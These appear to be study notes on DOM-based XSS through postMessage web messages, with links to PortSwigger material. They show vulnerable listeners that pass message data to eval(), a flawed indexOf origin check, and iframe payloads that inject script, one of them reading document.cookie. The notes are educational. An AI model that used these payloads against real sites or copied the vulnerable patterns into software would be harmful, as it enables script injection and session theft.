 the following kind of data can also be used as `source` to exploit `taint-flow culnerability`

- [reflected data(reflected DOM xss)](https://portswigger.net/web-security/cross-site-scripting/dom-based#dom-xss-combined-with-reflected-and-stored-data)
- [Stored data (stored DOM XSS)](https://portswigger.net/web-security/cross-site-scripting/dom-based#dom-xss-combined-with-reflected-and-stored-data)
- [Web messages as source](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source)

## web messages as source

### Controlling web-message Source

### How to construct an attack using web messages as the source

vuln code

```
<script>
window.addEventListener('message', function(e){
eval(e.data);
});
</script>

```

this Script is vulnerable because an attacker could inject a JS payload by constructing `iframe:`

```
<iframe src = "//vuln-web.com"
onload = "this.contentWindow.postMessage('alert(1)','*')">

```

because the event listener does not verify Origin of the message, event listener accepts the payload and passes it into a sink, in this case it is `eval()` function.

example exploits

```
#exploit-server code
<iframe src="<https://vuln-web.com/>" onload="this.contentWindow.postMessage('javascript:alert(document.cookie)//http:','*')">

```

### Origin Verification

- if some `event listener` does include some form of origin verification, this verification step can sometimes be flawed

```
window.addEventListener('message', function(e){
if(e.origin.indexOf('normal-web.com')> -1){
eval(e.data)}})

```
